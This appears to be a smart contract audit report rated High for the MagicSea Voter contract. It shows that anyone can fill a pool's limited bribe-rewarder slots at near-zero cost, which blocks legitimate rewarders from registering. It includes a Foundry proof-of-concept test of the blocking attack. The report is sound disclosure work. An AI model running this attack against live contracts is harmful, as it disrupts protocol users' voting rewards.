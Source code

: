 Future Mandarin Unicorn

High

# normal bribe rewarders may be blocked by malicious bribe rewarders

## Summary
There is one max_bribes_per_pool limitation. Malicious users can create some bribe rewarders to register with voter. This will block normal bribe rewarders to register.

## Vulnerability Detail
In Voter contract, voter allows bribe rewarder to register with one pool. This will encourage users to vote for this pool. The vulnerability is that there is one limitation bribe rewarders' count for each pool. Malicious users can create some bribe rewarders and register with voter. This will block some normal bribe rewarders to register with the pool.
What's more, when the malicious user register bribe rewarders with the pool, they can choose one quite small amount for reward , even malicious users can create one bribe rewarder with one zero-value token. So malicious users need spend almost nothing to block normal bribe rewarders. This will lead to the voters not vote for this pool.

```javascript
    function onRegister() external override {
        IBribeRewarder rewarder = IBribeRewarder(msg.sender);
        // Must be one bribe rewarder
        _checkRegisterCaller(rewarder);

        uint256 currentPeriodId = _currentVotingPeriodId;
        (address pool, uint256[] memory periods) = rewarder.getBribePeriods();
        for (uint256 i = 0; i < periods.length; ++i) {
            // TODO check if rewarder token + pool  is already registered
            require(periods[i] >= currentPeriodId, "wrong period");
            // @audit possible block actual bribe rewarder.
            require(_bribesPerPriod[periods[i]][pool].length + 1 <= Constants.MAX_BRIBES_PER_POOL, "too much bribes");
            _bribesPerPriod[periods[i]][pool].push(rewarder);
        }
    }
```
### Poc
In this test, alice creates 5 bribe rewarders and register with voter contract. When bob wants to create 1 bribe rewarder and wants to register with voter contract, this will be reverted.
```javascript
    function testBribeAndRegister() public {
        ERC20Mock(address(rewardToken)).mint(address(alice), 100e18);
        ERC20Mock(address(rewardToken)).mint(address(bob), 100e18);

        vm.startPrank(alice);
        rewarder1 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        rewarder2 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        rewarder3 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        rewarder4 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        rewarder5 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        ERC20Mock(address(rewardToken)).approve(address(rewarder1), 20e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder2), 20e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder3), 20e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder4), 20e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder5), 20e18);
        // Register
        rewarder1.fundAndBribe(1, 2, 10e18);
        rewarder2.fundAndBribe(1, 2, 10e18);
        rewarder3.fundAndBribe(1, 2, 10e18);
        rewarder4.fundAndBribe(1, 2, 10e18);
        rewarder5.fundAndBribe(1, 2, 10e18);
        vm.stopPrank();

        vm.startPrank(bob);
        rewarder6 = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, pool))));
        ERC20Mock(address(rewardToken)).approve(address(rewarder6), 20e18);
        rewarder6.fundAndBribe(1, 2, 10e18);
        vm.stopPrank();
    }
```
## Impact
Normal users may not create one bribe rewarders and register with voter contract. This will impact the voters' voting result. Because this pool will have less or no extra rewards for the voters.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L130-L144

## Tool used

Manual Review

## Recommendation
Add one whiltelist for createBribeRewarder(). Only trusted operators can create one rewarder.